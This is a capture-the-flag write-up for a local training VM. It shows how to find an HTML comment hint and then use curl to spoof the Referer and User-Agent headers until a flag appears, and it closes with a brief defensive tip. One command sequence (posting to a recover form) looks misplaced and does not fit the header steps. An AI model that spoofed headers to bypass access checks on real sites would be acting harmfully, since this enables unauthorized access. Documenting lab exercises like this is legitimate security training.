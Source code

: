 # Fake headers

__http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f__

## Description
There are a lot of comments in the html. One of them is 
```
<!--
You must come from : "https://www.nsa.gov/".
-->
```

## Form Outputs
Let's try to request

```
curl http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -s -o nohead.html
curl http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -H "Referer: https://www.nsa.gov/" -s -o head.html
diff nohead.html head.html 
```
We get the following rows
```
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```
We see FIRST STEP DONE

## Flag
Let's use the next comment:
```
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```
We see ft_bornToSec header. We can use that for header
```
curl -s 'http://192.168.56.101/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o webmaster.html
curl -s 'http://192.168.56.101/?page=recover' --data 'mail=krasty%40lnoisome.com&Submit=Submit' -o krasty.html
diff webmaster.html krasty.html 
```
Inside the diff output html we get the flag
```
curl 'http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o head.html
diff nohead.html head.html | grep flag
```
The output is with the flag

## Safety
Use Secure Protocols and Headers: Employ HTTPS/TLS for secure communication between the server and the user's browser. Additionally, be mindful of headers such as "Referer" and "User-Agent" and utilize them correctly to ensure the desired behavior and security of your application.
